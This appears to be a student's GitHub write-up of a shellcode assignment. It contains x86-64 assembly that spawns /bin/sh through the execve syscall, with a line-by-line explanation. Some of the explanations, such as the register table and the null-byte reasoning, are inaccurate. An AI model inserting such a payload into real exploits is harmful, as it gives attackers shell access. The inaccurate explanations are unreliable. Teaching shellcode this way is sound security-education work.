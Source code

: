 ## ShellCode Creation
# A code block containing your assembly instructions for your shellcode 
```
.text
.global _start
_start:
	movabsq $0x68732f6e69622f2f, %rax /* move 64 bits into rax */
	shr $8, %rax /* remove null terminators by shifting down 8 bits */
	pushq %rax /* push the above -> stack /bin/sh\0 [1st arg] */
	
	/* rdi holds 1st arg of func */
	/* pointer to path to be executed */
	movq %rsp, %rdi /* /bin/sh to rdi */
	
	/* rsi holds 2nd arg of func array of command line args */
	/* array of command line args to pass */
	xorq %rax, %rax /* set to 0 */
	pushq %rax /* push null terminator -> stack */
	pushq %rdi /* push /bin/sh -> stack */
	movq %rsp, %rsi /* point (mov) /bin/sh to rsi */
	
	/* rdx 3rd arg of env var */
	/* no environment variables to pass */
	movq %rax, %rdx /* set to 0 */
	
	addq $0x3b, %rax /* move execve into rax */
	
	syscall
	
	leave
	ret
	
```


# A step-by-step explanation of your assembly code and how it sets up the system call 
To execute : execve (char *pathname, char **argv, char **envp) 

pathname : /bin/sh	|	argv : [ /bin/sh, NULL] 	| 	envp : NULL

execve id = 59 [ 0x3b ]

	RAX | 0x3B
	RDI | bin/sh_addy
	RSI | null_addy
	RDX | null_addy
					
movabsq is used to push the 64 bit 2F 2F 62 69 6e 2F 73 68 00 : "//bin/sh" and saved into the rax register. 

Completing the first argument: To get rid of null termiantors we shifted 8 bits to the right using shr and push that value into rax

Completing the second argument: requires filename associated w/ file, and a NULL pointer. 
rax receives the null and rdi the filename. pointer is then moved to rsi

Completing the third argument:requires the environment variables. Since we are passing nothing we also set this to a null terminator. This is dueable since rax was xorq

addq is then used to put together execve and the arguments that were set up (this is found in the rax register). This will be used to execute the execve when the syscall is done. 


# Report how many bytes total are in your assembly, and include the whole thing in ascii 
![image](https://user-images.githubusercontent.com/89425242/234662767-a9b29b07-8cbc-446d-b976-502687ea6c6b.png)


![image](https://user-images.githubusercontent.com/89425242/234666632-9ab5092c-3aab-43b4-a70a-caeea44bb5c6.png)


